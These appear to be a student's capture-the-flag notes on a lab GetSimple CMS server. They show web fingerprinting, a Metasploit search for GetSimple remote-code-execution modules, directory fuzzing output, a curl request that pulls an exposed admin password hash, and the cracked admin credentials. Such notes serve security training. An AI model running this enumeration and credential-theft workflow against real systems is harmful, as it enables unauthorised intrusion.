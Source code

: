 Port 80 appears to be running

CMS - GetSimple CMS 

version 3.3.15
http://10.129.6.57/data/cache/2a4c6447379fba09620ba05582eb61af.txt

Logs invalid logins!!
http://10.129.201.192/data/other/logs/failedlogins.log
s
sudo sh -c 'echo "10.129.201.192 gettingstarted.htb" >> /etc/hosts'

![../Images/Pasted image 20241007141415.png](<../Images/Pasted image 20241007141415.png>)

```
whatweb http://10.129.201.192
```

```
┌──(paige㉿PH-LT02)-[/home/paige]
└─PS> whatweb http://10.129.201.192                                                                                
http://10.129.201.192 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.201.192], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]    
```

![../Images/Screenshot\_2024-10-07\_11\_56\_34.png](<../Images/Screenshot_2024-10-07_11_56_34.png>)

## Metasploit

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![../Images/Pasted image 20241007144838.png](<../Images/Pasted image 20241007144838.png>)

Which allows us to grab the first capture flag
![../Images/Pasted image 20241007145121.png](<../Images/Pasted image 20241007145121.png>)
## Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.201.192/FUZZ -t 100 -ic -c 
```
Output

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.201.192/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 20ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
plugins                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
theme                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 19ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 19ms]
:: Progress: [220546/220546] :: Job [1/1] :: 4065 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

### Passwords

Tried the following credentials below to gain access to admin after determining the hash.

```
┌──(paige㉿PH-LT02)-[~]
└─$ curl -s  http://10.129.201.192/data/users/admin.xml.reset | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>```
```

http://gettingstarted.htb/admin

| username                 | password                                 |
| ------------------------ | ---------------------------------------- |
| admin                    | admin                                    |


